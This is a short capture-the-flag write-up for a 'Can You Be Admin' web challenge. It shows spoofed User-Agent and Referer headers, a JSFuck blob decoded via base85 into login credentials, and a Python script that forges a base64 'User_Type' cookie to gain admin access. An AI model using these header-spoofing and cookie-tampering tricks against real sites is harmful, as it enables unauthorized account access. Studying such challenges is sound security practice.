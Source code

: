 # Kignht CTF - Can You Be Admin

**The page said**: Only KnightSquad agents can access this page.
**I said**: 
```html
User-Agent: KnightSquad
```
**The page said**: This page refers to knight squad home network. So, Only Knight Squad home network can access this page.
**I said**: 
```html
Referer: localhost
```

Edit two above headers, at the bottom of the page, we get bunch of JSFuck hind in the comment:
```
[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])
```
Ok, let's decode it:
```
F`V,7DIIBn+?CWe@<,q!$?0EpF*DPCA0<oU8RZI/DJ<`sF8
```
Is nonsense right, is hard but my teammate find out, is base 85, remember the format plss:
```
username : tareq
password : IamKnight
```

Log in, we still a normal user, check the cookies, there's a cookie name User_Type with value Normal_User all base64 encode, change Normal_User to Admin, we logged in as admin:
```python
import requests
import base64

url = 'http://can-you-be-admin.kshackzone.com/dashboard.php'

cookies = {
    'PHPSESSID': 'c0bc7a8184ea78364d4b7d8d9828c34a',
    'VXNlcl9UeXBl': base64.urlsafe_b64encode('Admin'.encode()).decode(),
}

r = requests.get(url, cookies=cookies, verify=False)

print(r.text)
```